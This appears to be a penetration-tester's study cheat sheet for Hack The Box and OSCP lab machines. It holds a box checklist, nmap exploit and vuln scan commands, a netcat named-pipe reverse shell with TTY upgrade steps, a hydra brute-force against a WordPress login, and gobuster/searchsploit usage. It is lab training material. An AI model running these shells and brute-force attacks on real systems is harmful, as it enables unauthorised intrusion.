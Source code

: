 # HTB boxes
- [x] Lame
- [x] Beep
- [ ] Bastard
- [ ] Grandpa/Granny
- [x] Mirai
- [x] Solidstate
- [ ] Jeeves
- [ ] Tally (Much harder than anything on OSCP, but you've gotta get used to windows)
- [x] Bashed
- [x] Nibbles
- [ ] Sense
- [x] Valentine
- [ ] Bart (Again, same issue but really get used to windows)
- [ ] Chatterbox // low priv shell
- [ ] Popcorn // low priv shell
- [x] Haircut
- [ ] Nineveh
- [ ] Shocker
- [ ] Cronos
- [ ] Arctic
- [ ] Optimum
- [ ] Davel

###

to look at:
reconnoitre
scund00r

### Burp config

- set proxy to <htb-ip>:1337 redirect to <active-machine-ip>:80 to view terminal stuff in burp.

### nmaps

nmap -sV --script=exploit,external,vuln,auth,default -oN nmap-version-exploits.txt 10.11.1.220

nmap -sV --reason --dns-server 10.11.1.220 -oN nmap-versions.txt 10.11.1.220

nmap -sC -sV -oA


### getting an actual terminal

#### 1

`victim$ mknod /tmp/backpipe p`

`victim$ /bin/sh 0</tmp/backpipe | nc 10.10.14.9 445 1>/tmp/backpipe `

#### 2

maybe set `TERM=xterm`

to edit the file `^Z` to background the shell.

now `stty raw -echo` then `fg` the shell then hit enter a few times.

### assorted

- hydra -V -l admin -P /usr/share/wordlists/rockyou.txt 10.11.1.234 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=ERROR" -t 32 -I
- searchsploit -x to view
- searchsploit -p copies to clipboard
- gobuster dir -u http://10.10.10.14 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gouster-2.3-medium.txt -x php,html,txt
- to use gobuster on https use `-k`
